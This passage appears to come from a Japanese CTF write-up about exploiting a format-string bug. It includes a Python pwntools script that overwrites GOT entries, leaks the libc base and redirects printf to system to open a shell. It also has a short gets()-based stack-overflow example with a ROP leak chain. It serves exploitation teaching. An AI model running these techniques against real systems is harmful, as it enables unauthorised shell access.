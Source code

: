 ```python
    r.send(payload)
    ret = r.recvrepeat(TIME)
    assert(len(ret) == 0x1000)

def aar(where):
    addrlen = len(p64(where).strip(b'\x00'))
    payload = b''
    # mark --> 2
    # leak --> 6
    # padd --> 4
    payload += f"%8$s||%{0x1000-(2+6+4+addrlen)}c".encode()
    assert len(payload) < 0x10
    payload = payload.ljust(0x10, b'a')
    payload += p64(where)
    r.send(payload)
    ret = r.recvrepeat(TIME)
    assert(len(ret) == 0x1000)
    return ret

aaw(elf.got.exit, elf.sym.main)
ret = aar(elf.got.printf)
leak = u64(ret[1:].split(b'||')[0].ljust(8, b'\x00'))
print(f'leak: {leak:x}')
libc.address = leak - libc.sym.printf
print(f'base: {libc.address:x}')

aaw(elf.got.printf, libc.sym.system)
r.sendline(b"/bin/sh\x00")
r.interactive()
```

もとの問題とスクリプトは[ここ](https://github.com/jt00000/ctf.writeup/blob/master/t3n4cious2022/trig/solve.py)にあります。gotではなくROPを選択したようですが、やりたいことは同じです。

# おまけ：Stack BoFの場合
リークが欲しい場合、アドレスを固定のオフセットに書き込む都合で、出力の文字数を伸ばせないため少し面倒です。PIEが有効でないようなケースでは、文字列を書いて、表示してしまうのが良いように思います。

```c
#include<stdio.h>
int main(){
        char buf[3];
        gets(buf);
        puts(buf);
        return 0;
}
```

`poprdi, bss, elf.plt.gets, poprdi, bss, elf.plt.puts, poprdi, elf.got.puts, elf.plt.puts, elf.sym.main`というropを作って、文字列を0x1001文字埋めると良いです。今回はリークがほしいだけなので適当な数を入れて、値を貰えればOKなので気楽に書けば良いでしょう。書けるところが足りない場合は複数回表示すればよいです。(0x800文字書いて2回表示するなど)

何らか文字列が出せるなら、それを繰り返せばよいです。あまり繰り返し回数が多くなると、スタックが枯渇する可能性があるので注意です。

これも手元でも試そうとしましたが、検証環境の`gcc 11.2.0-19ubuntu1`では`libc_csu_init`を生成しないため、`pop rdi`が存在しておらず一旦詰んだのでやめます。こういう設定の問題を解いたときのスクリプトを参考までに上げていますので、参照ください。（[ここ](https://github.com/jt00000/ctf.writeup/blob/master/t3n4ci0us2022/prison/solve.py)）
